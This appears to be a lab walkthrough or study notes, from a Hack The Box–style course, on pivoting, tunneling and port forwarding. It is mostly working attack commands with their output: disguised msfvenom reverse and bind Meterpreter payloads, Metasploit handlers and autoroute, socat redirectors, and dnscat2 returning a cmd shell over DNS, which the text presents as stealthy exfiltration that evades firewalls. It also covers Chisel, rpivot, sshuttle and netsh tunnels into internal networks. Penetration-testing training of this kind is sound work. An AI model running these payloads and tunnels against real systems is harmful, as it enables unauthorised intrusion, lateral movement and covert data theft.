[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500
meterpreter > shell
Process 3236 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\>
Your Meterpreter session should list that your incoming connection is from a locahost itself since you are receiving the connection over the local SSH socket, which created an outbound connection to the Ubuntu server. Issuing the netstat command can show you that the incoming connection is from the SSH service.

Meterpreter Tunneling & Port Forwarding
Scenario
d41y@htb[/htb]$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: backupjob
Before copying the payload over, you can start a multi/handler, also known as a Generic Payload Handler.
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080
You can copy the backupjob binary file to the Ubuntu pivot host over SSH and execute it to gain a Meterpreter session.
ubuntu@WebServer:~$ ls
backupjob
ubuntu@WebServer:~$ chmod +x backupjob
ubuntu@WebServer:~$ ./backupjob
You need to make sure the Meterpreter session is successfully established upon executing the payload.
[*] Sending stage (3020772 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
meterpreter > pwd
/home/ubuntu
You know that the Windows target is on the 172.16.5.0/23 network. So assuming that the firewall on the Windows target is allowing ICMP request, you would want to perform a ping sweep on this network. You can do that using Meterpreter with the ping_sweep module, which will generate the ICMP traffic from the Ubuntu host to the network.
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
[*] Performing ping sweep for IP range 172.16.5.0/23
You could also perform a ping sweep using a for loop directly on a target pivot host that will ping any device in the network range you specify.
Bash:
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
CMD:
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
PowerShell:
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.16.5.$($_) -quiet)"}
There could be scenarios when a host's firewall blocks ping, and the ping won't get you successfull replies. In these cases, you can perform a TCP scan on the target network with Nmap. Instead of using SSH port forwarding, you can also use Metasploit's post-exploitation routing module socks_proxy to configure a local proxy on your attack host.
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options
Module options (auxiliary/server/socks_proxy):
Name Current Setting Required Description
---- --------------- -------- -----------
SRVHOST 0.0.0.0 yes The address to listen on
SRVPORT 9050 yes The port to listen on
VERSION 4a yes The SOCKS version to use (Accepted: 4a,
5)
Auxiliary action:
Name Description
---- -----------
Proxy Run a SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > jobs
Jobs
====
Id Name Payload Payload opts
-- ---- ------- ------------
0 Auxiliary: server/socks_proxy
After initiating the SOCKS server, you will configure proxychains to route traffic generated by other tools like Nmap through your pivot on the compromised Ubuntu host. You can add the below line at the end of your proxychains conf.
socks4 127.0.0.1 9050
Finally, you need to tell your socks_proxy module to route all the traffic via your Meterpreter session. You can use the post/multi/manage/autoroute module from Metasploit to add routes for the 172.16.5.0 subnet and then route all your proxychains traffic.
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run
[!] SESSION may not be compatible with this module:
[!] * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
It is also possible to add routes with autoroute by running autoroute from the Meterpreter session.
meterpreter > run autoroute -s 172.16.5.0/23
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
After adding the necessary route(s) you can use the -p option to list the active routes to make sure your configuration is applied as expected.
meterpreter > run autoroute -p
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
Active Routing Table
====================
Subnet Netmask Gateway
------ ------- -------
10.129.0.0 255.255.0.0 Session 1
172.16.4.0 255.255.254.0 Session 1
172.16.5.0 255.255.254.0 Session 1
As you can see from the output above, the route has been added to the 172.16.5.0/23 network. You will now be able to use proxychains to route your Nmap traffic via your Meterpreter session.
d41y@htb[/htb]$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
ProxyChains-3.1 (http://proxychains.sf.net)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-03 13:40 EST
Initiating Parallel DNS resolution of 1 host. at 13:40
Completed Parallel DNS resolution of 1 host. at 13:40, 0.12s elapsed
Initiating Connect Scan at 13:40
Scanning 172.16.5.19 [1 port]
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19 :3389-<><>-OK
Discovered open port 3389/tcp on 172.16.5.19
Completed Connect Scan at 13:40, 0.12s elapsed (1 total ports)
Nmap scan report for 172.16.5.19
Host is up (0.12s latency).
PORT STATE SERVICE
3389/tcp open ms-wbt-server
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds
Port Forwarding
... can also be accomplished using Meterpreter's portfwd module. You can enable a listener on your attack host and request Meterpreter to forward all the packets received on this port via your Meterpreter session to a remote host.
meterpreter > help portfwd
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
-h Help banner.
-i <opt> Index of the port forward entry to interact with (see the "list" command).
-l <opt> Forward: local port to listen on. Reverse: local port to connect to.
-L <opt> Forward: local host to listen on (optional). Reverse: local host to connect to.
-p <opt> Forward: remote port to connect to. Reverse: remote port to listen on.
-r <opt> Forward: remote host to connect to.
-R Indicates a reverse port forward.
...
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
The above command requests the Meterpreter session to start a listener on your attack host's local port 3300 and forward all the packets to the remote Windows server 172.16.5.19 on 3389 port via your Meterpreter session. Now, if you execute xfreerdp on your localhost:3300, you will be able to create a remote desktop session.
You can use Netstat to view information about the session you recently established. From a defensive perspective, you may benefit from using Netstat if you suspect a host has been compromised. This allows you to view any sessions a host has established.
d41y@htb[/htb]$ netstat -antp
tcp 0 0 127.0.0.1:54652 127.0.0.1:3300 ESTABLISHED 4075/xfreerdp
Reverse Port Forwarding
You can create a reverse port forward on your existing shell from the previous scenario using the below command. This command forwards all connections on port 1234 running on the Ubuntu server to your attack host on local port 8081.
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
...
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8081
You can now create a reverse shell payload that will send a connection back to your Ubuntu server on 172.16.5.129:1234 when executed on your Windows host. Once you Ubuntu server receives this connection, it will forward that to attack host's ip:8081 that you configured.
d41y@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
Finally, you execute the payload on the Windows host, you should be able to receive a shell from Windows pivoted via the Ubuntu server.
[*] Started reverse TCP handler on 0.0.0.0:8081
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500
meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\>
Socat
Redirection with Reverse Shell
... is a bidirectional relay tool that can create pipe sockets between 2 independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port. You can start Metasploit's listener using the same command mentioned in the last section, and you can start socat on the Ubuntu server.
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
Socat will listen on localhost on port 8000 and forward all the traffic to port 80 on your attack host. Once your redirector is configured, you can create a payload that will connect back to your redirector, which is running on your Ubuntu server. You will also start a listener on your attack host because as soon as socat receives a connection from a target, it will redirect all the traffic to your attack host's listener, where you would be getting a shell.
d41y@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 743 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
Keep in mind that you must transfer this payload to the Windows host. You can use some of the same techniques used above.
d41y@htb[/htb]$ sudo msfconsole
<SNIP>
...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run
[*] Started HTTPS reverse handler on https://0.0.0.0:80
You can test this by running your payload on the windows host again, and you should see a network connection from the Ubuntu server this time.
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1 ) at 2022-03-07 11:08:10 -0500
meterpreter > getuid
Server username: INLANEFREIGHT\victor
Redirection with Bind Shell
Similar to the socat's reverse shell redirector, you can also create a socat bind shell redirector. This is different from reverse shells that connect back from the Windows server to the Ubuntu server and get redirected to your attack host. In the case of bind shells, the Windows server will start a listener and bind to a particular port. You can create a bind shell payload for Windows and execute it on the Windows host. At the same time, you can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target.

You can create a bind shell using msfvenom with the below command.
d41y@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupjob.exe LPORT=8443
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 499 bytes
Final size of exe file: 7168 bytes
Saved as: backupjob.exe
You can start a socat bind shell listener, which listens on port 8080 and forwards packets to Windows server 8443.
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
Finally, you can start a Metasploit bind handler. This bind handler can be configured to connect to your socat's listener on port 8080.
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run
[*] Started bind TCP handler against 10.129.202.64:8080
You can see a bind handler connected to a stage request pivoted via a socat listener upon executing the payload on a Windows target.
[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500
meterpreter > getuid
Server username: INLANEFREIGHT\victor
Pivoting around Obstacles
SSH for Windows: plink.exe
Plink, short for PuTTY Link, is a Windows command-line SSH tool that comes as a part of the PuTTY package when installed. Similar to SSH, Plink can also be used to create dynamic port forwards and SOCKS proxies.
In the below image, you have a Windows-based attack host.

The Windows attack host starts a plink.exe process with the below command-line arguments to start a dynamic port forward over the Ubuntu server. This starts an SSH session between the Windows attack host and the Ubuntu server, and then plink starts listening on port 9050.
plink -ssh -D 9050 ubuntu@10.129.15.50
Another Windows-based tool called Proxifier can be used to start a socks tunnel via the SSH session you created. Proxifier is a Windows tool that creates a tunneled network for desktop client applications and allows it to operate through a SOCKS or HTTPS proxy and allows for proxy chaining. It is possible to create a profile where you can provide the configuration for your SOCKS server started by Plink on port 9050.
After configuring the SOCKS server for 127.0.0.1 and port 9050, you can directly start mstsc.exe to start an RDP session with a Windows target that allows RDP connections.
SSH Pivoting with Sshuttle
Sshuttle can be extremely useful for automating the execution of iptables and adding pivot rules for the remote host. You can configure the Ubuntu server as a pivot and route all of Nmap's network traffic with sshuttle.
One interesting usage of sshuttle is that you don't need to use proxychains to connect to the remote hosts.
To use sshuttle, you specify the option -r to connect to the remote machine with a username and password. Then you need to include the network IP you want to route through the pivot host.
d41y@htb[/htb]$ sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v
Starting sshuttle proxy (version 1.1.0).
c : Starting firewall manager with command: ['/usr/bin/python3', '/usr/local/lib/python3.9/dist-packages/sshuttle/__main__.py', '-v', '--method', 'auto', '--firewall']
fw: Starting firewall with Python version 3.9.2
fw: ready method name nat.
c : IPv6 enabled: Using default IPv6 listen address ::1
c : Method: nat
c : IPv4: on
c : IPv6: on
c : UDP : off (not available with nat method)
c : DNS : off (available)
c : User: off (available)
c : Subnets to forward through remote host (type, IP, cidr mask width, startPort, endPort):
c : (<AddressFamily.AF_INET: 2>, '172.16.5.0', 32, 0, 0)
c : Subnets to exclude from forwarding:
c : (<AddressFamily.AF_INET: 2>, '127.0.0.1', 32, 0, 0)
c : (<AddressFamily.AF_INET6: 10>, '::1', 128, 0, 0)
c : TCP redirector listening on ('::1', 12300, 0, 0).
c : TCP redirector listening on ('127.0.0.1', 12300).
c : Starting client with Python version 3.9.2
c : Connecting to server...
ubuntu@10.129.202.64's password:
s: Running server on remote host with /usr/bin/python3 (version 3.8.10)
s: latency control setting = True
s: auto-nets:False
c : Connected to server.
fw: setting up.
fw: ip6tables -w -t nat -N sshuttle-12300
fw: ip6tables -w -t nat -F sshuttle-12300
fw: ip6tables -w -t nat -I OUTPUT 1 -j sshuttle-12300
fw: ip6tables -w -t nat -I PREROUTING 1 -j sshuttle-12300
fw: ip6tables -w -t nat -A sshuttle-12300 -j RETURN -m addrtype --dst-type LOCAL
fw: ip6tables -w -t nat -A sshuttle-12300 -j RETURN --dest ::1/128 -p tcp
fw: iptables -w -t nat -N sshuttle-12300
fw: iptables -w -t nat -F sshuttle-12300
fw: iptables -w -t nat -I OUTPUT 1 -j sshuttle-12300
fw: iptables -w -t nat -I PREROUTING 1 -j sshuttle-12300
fw: iptables -w -t nat -A sshuttle-12300 -j RETURN -m addrtype --dst-type LOCAL
fw: iptables -w -t nat -A sshuttle-12300 -j RETURN --dest 127.0.0.1/32 -p tcp
fw: iptables -w -t nat -A sshuttle-12300 -j REDIRECT --dest 172.16.5.0/32 -p tcp --to-ports 12300
With this command, sshuttle creates an entry in your iptables to redirect all traffic to the 172.16.5.0/23 network through the pivot host.
d41y@htb[/htb]$ nmap -v -sV -p3389 172.16.5.19 -A -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-08 11:16 EST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 11:16
Completed Parallel DNS resolution of 1 host. at 11:16, 0.15s elapsed
Initiating Connect Scan at 11:16
Scanning 172.16.5.19 [1 port]
Completed Connect Scan at 11:16, 2.00s elapsed (1 total ports)
Initiating Service scan at 11:16
NSE: Script scanning 172.16.5.19.
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Nmap scan report for 172.16.5.19
Host is up.
PORT STATE SERVICE VERSION
3389/tcp open ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
| Target_Name: INLANEFREIGHT
| NetBIOS_Domain_Name: INLANEFREIGHT
| NetBIOS_Computer_Name: DC01
| DNS_Domain_Name: inlanefreight.local
| DNS_Computer_Name: DC01.inlanefreight.local
| Product_Version: 10.0.17763
|_ System_Time: 2022-08-14T02:58:25+00:00
|_ssl-date: 2022-08-14T02:58:25+00:00; +7s from scanner time.
| ssl-cert: Subject: commonName=DC01.inlanefreight.local
| Issuer: commonName=DC01.inlanefreight.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-13T02:51:48
| Not valid after: 2023-02-12T02:51:48
| MD5: 58a1 27de 5f06 fea6 0e18 9a02 f0de 982b
|_SHA-1: f490 dc7d 3387 9962 745a 9ef8 8c15 d20e 477f 88cb
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 6s, deviation: 0s, median: 6s
NSE: Script Post-scanning.
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Initiating NSE at 11:16
Completed NSE at 11:16, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.07 seconds
You can now use any tool direct without using proxychains.
Web Server Pivoting with Rpivot
Rpivot is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside inside a corporate network to an external server and exposes the client's local port on the server-side.

You can start your rpivot SOCKS proxy server using the below command to allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections.
d41y@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
Before running client.py you will need to transfer rpivot to the target.
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
Backconnecting to server 10.10.14.18 port 9999
...
# on server
New connection from host 10.129.202.64, source port 35226
You will configure proxychains to pivot over your local server on 127.0.0.1:9050 on your attack host, which was initially started by the Python server.
Finally, you should be able to access the webserver on your server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.
proxychains firefox-esr 172.16.5.135:80
Similar to the pivot proxy above, there could be scenarios when you cannot directly pivot to an external server on the cloud. Some organizations have HTTP-proxy with NTLM authentication configured with the DC. In such cases, you can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, you could use rpivot's client.py in the following way:
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
Port Forwarding with Windows Netsh
Netsh is a Windows command-line tool that can help with the network configuration of a particular Windows system. Tasks can be:
- finding routes
- viewing the firewall configuration
- adding proxies
- creating port forwarding rules

You can use netsh.exe to forward all data received on a specific port to a remote host on a remote port. This can be performed using the below command:
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
...
C:\Windows\system32> netsh.exe interface portproxy show v4tov4
Listen on ipv4: Connect to ipv4:
Address Port Address Port
--------------- ---------- --------------- ----------
10.129.15.150 8080 172.16.5.25 3389
After configuring the portproxy on your Windows-based pivot host, you will try to connect to the 8080 port of this host from your attack host using xfreerdp. Once a request is sent from your attack host, the Windows host will route your traffic according to the proxy settings configured by netsh.exe.
Branching out the Tunnels
DNS Tunneling with Dnscat2
Dnscat2 is a tunneling tool that uses DNS protocol to send data between two hosts. It uses an encrypted C2 channel and sends data inside TXT records within the DNS protocol. Usually, every active directory domain environment in a corporate network will have its own DNS server, which will resolve hostnames to IP addresses and route the traffic to external DNS servers participating in the overarching DNS system. However, with dnscat2, the address resolution is requested from an external server. When a local DNS server tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request. Dnscat2 can be a extremely stealthy approach to exfiltrate data while evading firewall detections which strip the HTTPS connections and sniff the traffic.
Setting Up & Using dnscat2
You can start the dnscat2 server by executing the dnscat2 file.
d41y@htb[/htb]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.
auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...
Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):
./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local
To talk directly to the server without a domain name, run:
./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21
Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
After running the server, it will provide you the secret key, which you will have to provide to your dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to your external dnscat2 server. You can use the client with dnscat2 project or use dnscat2-powershell, a dnscat2 compatible PowerShell-based client that you can run from Windows targets to establish a tunnel with your dnscat2 server.
Once the dnscat2.ps1 file is on the target you can import it and run associated cmd-lets.
PS C:\htb> Import-Module .\dnscat2.ps1
After dnscat2.ps1 is imported, you can use it to establish a tunnel with the server running on your attack host. You can send back a CMD shell session to your server.
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd
You must use the pre-shared secret (-PreSharedSecret) generated on the server to ensure your session is established and encrypted. If all steps are completed successfully, you will see a session with your server.
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
dnscat2>
You can list the options you have with dnscat2 by entering ? at the prompt.
dnscat2> ?
Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
You can use dnscat2 to interact with sessions and move further in a target environment on engagements. Interact with your established session and drop into a shell.
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!
That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!
To go back, type ctrl-z.
Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.
C:\Windows\system32>
exec (OFFICEMANAGER) 1>
SOCKS5 Tunneling with Chisel
Chisel is a TCP/UDP-based tunneling tool written in Go that uses HTTP to transport data that is secured using SSH. Chisel can create a client-server tunnel connection in a firewall restricted environment. Consider a scenario where you have to tunnel your traffic to a webserver on the 172.16.5.0/23 network. You have the DC with the address 172.16.5.19. This is not directly accessible to your attack host since your attack host and the DC belong to different network segments. However, since you have compromised the Ubuntu server, you can start a Chisel server on it that will listen on a specific port and forward your traffic to the internal network through the established tunnel.
Setting Up & Using Chisel
Before you can use Chisel, you need to have it on your attack host. If you do not have Chisel on your attack host, you can clone the project repo using the command below:
d41y@htb[/htb]$ git clone https://github.com/jpillora/chisel.git
You will need the programming language Go installed on your system to build the Chisel binary. With go installed on the system, you can move into that directory and use go build to build the Chisel binary.
d41y@htb[/htb]$ cd chisel
go build
Once the binary is built, you can use SCP to transfer it to the target pivot host.
d41y@htb[/htb]$ scp chisel ubuntu@10.129.202.64:~/
ubuntu@10.129.202.64's password:
chisel 100% 11MB 1.2MB/s 00:09
Then you can start the Chisel server/listener.
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5
2022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234
The Chisel listener will listen for incoming connections on port 1234 using SOCKS5 and forward it to all the networks that are accessible from the pivot host. In your case, the pivot host has an interface on the 172.16.5.0/23 network, which will allow you to reach hosts on that network.
You can start a client on your attack host and connect to the Chisel server.
d41y@htb[/htb]$ ./chisel client -v 10.129.202.64:1234 socks
2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected
As you can see in the above output, the Chisel client has created a TCP/UDP tunnel via HTTP secured using SSH between the Chisel server and the client and has started listening on port 1080. Now you can modify your proxychains.conf file and add 1080 port at the end so you can use proxychains to pivot using the created tunnel between the 1080 port and the SSH tunnel.
You can use any text editor you would would like to edit the proxychains.conf file, then confirm your configuration changes using tail.
d41y@htb[/htb]$ tail -f /etc/proxychains.conf
#
# proxy types: http, socks4, socks5
# ( auth types supported: "basic"-http "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 127.0.0.1 9050
socks5 127.0.0.1 1080
Now if you use proxychains with RDP, you can connect to the DC on the internal network through the tunnel you have created to the Pivot host.
d41y@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
Reverse Pivot
There may be scenarios where firewall rules restrict inbound connections to your compromised target. In such cases, you can use Chisel with the reverse option.
When the Chisel server has --reverse enabled, remotes can be prefixed with R to denote reversed. The server will listen and accept connections, and they will be proxied through the client, which specified the remote. Reverse remotes specifying R:socks will listen on the server's default socks port and terminante the connection at the client's internal SOCKS5 proxy.
d41y@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks5
2022/05/30 10:19:16 server: Reverse tunnelling enabled
2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234
Then you connect from the Ubuntu to your attack host, using the option R:socks.
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks
2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
2022/05/30 14:19:29 client: Handshaking...
2022/05/30 14:19:30 client: Sending config
2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
2022/05/30 14:19:30 client: tun: SSH connected
You can use any editor you would like to edit the proxychains.conf file, then confirm your configuration changes using tail.
d41y@htb[/htb]$ tail -f /etc/proxychains.conf
[ProxyList]
# add proxy here ...
# socks4 127.0.0.1 9050
socks5 127.0.0.1 1080
ICMP Tunneling with SOCKS
ICMP tunneling encapsulates your traffic within ICMP packets containing echo requests and responses. ICMP tunneling would only work when ping responses are permitted within a firewall network. When a host within a firewalled network is allowed to ping an external server, it can encapsulate its traffic within the ping echo request and send it to an external server. The external server can validate this traffic and send an appropriate response, which is extremely useful for data exfiltration and creating pivot tunnels to an external server.
Setting Up & Using ptunnel-ng
Once the ptunnel-ng repo is cloned to your attack host, you can run the autogen.sh script located at the root of the ptunnel-ng directory.
d41y@htb[/htb]$ sudo ./autogen.sh
After running autogen.sh, ptunnel-sh can be used from the client and server-side. You will now need to transfer the repo from your attack host to the target host.
d41y@htb[/htb]$ sudo apt install automake autoconf -y
d41y@htb[/htb]$ cd ptunnel-ng/
